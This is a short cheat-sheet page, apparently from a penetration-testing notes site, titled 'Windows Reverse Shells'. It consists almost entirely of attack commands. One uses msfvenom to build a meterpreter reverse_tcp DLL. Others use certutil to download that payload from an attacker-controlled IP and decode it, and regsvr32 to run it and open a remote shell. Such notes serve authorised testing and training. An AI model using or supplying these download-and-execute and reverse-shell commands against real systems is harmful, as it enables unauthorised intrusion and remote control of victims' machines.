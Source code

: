```yaml
---
title: Windows Reverse Shells
layout: default
nav_order: 5
parent: Reverse Shells

---
```


# Windows Reverse Shell
{: .no_toc }
## Table of Contents
{: .no_toc .text-delta }
1. TOC
{:toc}

### Meterpreter - DLL
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 lport=8443 -f dll > dll.txt
```

Download `dll` from Windows target
```powershell
$IP=""
certutil -urlcache -split -f http://$IP/dll.txt dll.txt | certutil -encode dll.txt edll.txt
```

Decode and run `dll`: 
```powershell
certutil -decode .\edll.txt exploit.dll
regsvr32 /s /u .\exploit.dll
```

Reference - https://www.hackingarticles.in/windows-for-pentester-certutil/


